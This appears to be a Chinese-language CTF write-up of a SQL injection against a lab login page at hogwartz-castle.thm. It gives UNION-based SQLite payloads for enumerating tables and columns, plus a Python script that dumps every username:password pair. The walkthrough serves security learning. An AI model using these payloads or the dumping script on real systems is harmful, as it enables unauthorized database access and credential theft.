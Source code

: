 ## SQLi
- 嘗試 SQLi
    - 亂輸入會噴 500 錯誤
        - ![](https://i.imgur.com/hC9IwLa.png)
    - 先複製 curl
        - `curl 'http://hogwartz-castle.thm/login' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://hogwartz-castle.thm' -H 'Connection: keep-alive' -H 'Referer: http://hogwartz-castle.thm/' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'user=aa&password=bb'`
- 可以戳 Union
    - `'union select 1,2,3,4 --`
    - ![](https://i.imgur.com/8oZED4R.png)
- 測了一些 version 之類的東東都發現不行
    - 才發現他是 SQLite
    - 'union select sqlite_version(),2,3,4  --
    - ![](https://i.imgur.com/JXv1VVk.png)
- SQLite 爆表
    - `'union select name,2,3,4 from sqlite_master WHERE type='table'  --`
    - ![](https://i.imgur.com/1S9UvKR.png)
    - 發現只有一張 users 的 table
- 爆 Column
    - `'union select sql,2,3,4 from sqlite_master WHERE type='table'  --`
    - ![](https://i.imgur.com/DboQSLP.png)
    - `name`
    - `password`
    - `admin`
    - `notes`

- 選使用者
    - `'union select group_concat(name),2,3,4 from users --`
    - ![](https://i.imgur.com/mRsktTI.png)
- 選 admin
    - ![](https://i.imgur.com/hg5rrk1.png)

- 爆 使用者跟密碼組
    - ![](https://i.imgur.com/qPtZXaY.png)
```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://hogwartz-castle.thm',
    'Connection': 'keep-alive',
    'Referer': 'http://hogwartz-castle.thm/login',
    'Upgrade-Insecure-Requests': '1',
}

# 'union select 1,2,3,4 --

for i in range(1,40):
    data = {
    'user': f"'union select name || ':' || password,2,3,4 from users limit {i},1 --",
    'password': '123'
    }

    response = requests.post('http://hogwartz-castle.thm/login', headers=headers, data=data)

    name = response.text[27:-19]

    print(name)
```